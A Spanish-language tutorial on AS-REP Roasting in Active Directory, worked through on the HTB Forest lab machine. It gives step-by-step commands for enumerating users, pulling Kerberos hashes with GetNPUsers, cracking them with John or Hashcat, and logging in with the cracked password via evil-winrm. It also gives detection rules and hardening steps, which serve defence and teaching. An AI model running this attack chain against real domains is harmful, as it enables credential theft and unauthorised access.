




¿Qué es AS-REP Roasting?
Definición: AS-REP Roasting es una técnica contra Active Directory que abusa de cuentas de usuario con la opción Do not require Kerberos preauthentication habilitada. Permite solicitar un mensaje AS-REP del KDC sin enviar un preauth válido; este AS-REP contiene material cifrado con la clave derivada de la contraseña del usuario, lo que posibilita obtener un hash crackeable offline.
Requisitos para que sea vulnerable:
- Cuentas con Preauth deshabilitado (UserAccountControl: DONT_REQ_PREAUTH)
- Capacidad de llegar al KDC (puerto 88/TCP)
- Conocer o enumerar UPN/usuarios del dominio
Impacto: Compromiso de credenciales de usuario, movimiento lateral y potencial escalación de privilegios en el dominio.
Caso Práctico: HTB Forest
- Objetivo: Extraer hash AS-REP de cuenta con preauth deshabilitado
- Servicios: Kerberos 88/TCP, LDAP/SMB expuestos
- Herramientas: nmap, netexec, rpcclient, GetNPUsers (Impacket), John/Hashcat
- Resultado esperado: Credenciales válidas para acceso remoto
Metodología de Explotación:
Fase 1: Reconocimiento
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.161 -oG allPorts
Confirmamos 88/TCP Kerberos y 445/TCP SMB abiertos.

Fase 2: Enumeración de Dominio y Usuarios
# Descubrir info SMB
netexec smb 10.10.10.161
# Enumerar usuarios vía RPC anónimo
rpcclient -U "" 10.10.10.161 -N
rpcclient $> enumdomusers
# Guardar usuarios
cat > users <<'EOF'
svc-alfresco
# ...añadir resto
EOF

Fase 3: AS-REP Roasting
python3 GetNPUsers.py htb.local/ -no-pass -usersfile users -format hashcat -outputfile asrep_hashes.txt
Si alguna cuenta tiene DONT_REQ_PREAUTH, se obtendrá un hash tipo $krb5asrep$ listo para crackear.

Fase 4: Cracking de Hash
# John the Ripper
john asrep_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show asrep_hashes.txt
# Hashcat (modo 18200)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 --show asrep_hashes.txt

Fase 5: Validación de Credenciales y Acceso
# Validar con SMB
netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares
# Acceso WinRM
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
Resultado: Credenciales válidas recuperadas y acceso remoto interactivo con WinRM.
Variantes, Detección y Evasión
Variantes y técnicas relacionadas
- Kerberoasting: Solicitud de TGS para SPNs y cracking offline
- AS-REP con UPN discovery: Enumeración previa de UPNs por LDAP
- Password spraying: Contra usuarios obtenidos para baja entropía
Señales de Detección (Blue Team)
- Eventos en DC: 4768 (TGT request) con Pre-Authentication not required
- Volumen inusual de AS-REQ/AS-REP desde un mismo host
- Consultas LDAP anónimas o masivas (enumeración de usuarios)
Reglas y Telemetría
title: Suspicious AS-REP Without Preauth
logsource:
product: windows
service: security
definition: 'DC Kerberos events'
detection:
selection:
EventID: 4768
PreAuthType: 0
condition: selection
level: high
Mitigaciones Recomendadas
Controles Clave:
- Habilitar siempre Preauthentication en cuentas de usuario
- Políticas de contraseñas fuertes y rotación periódica
- Auditoría continua de cuentas con DONT_REQ_PREAUTH
- Bloquear LDAP anónimo y limitar enumeración
- Alertas SIEM por picos de AS-REQ/REP y eventos 4768
Hardening de cuentas vulnerables
# Listar cuentas sin preautenticación
Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object {$_.DoesNotRequirePreAuth -eq $true} |
Select-Object SamAccountName,UserPrincipalName
# Habilitar preautenticación para una cuenta
Set-ADAccountControl -Identity svc-alfresco -DoesNotRequirePreAuth $false
Consideraciones Éticas y Legales
Advertencia Legal: Este contenido es educativo. Aplica estas técnicas solo en dominios propios o con autorización explícita por escrito, entornos de pentesting con contrato o laboratorios controlados.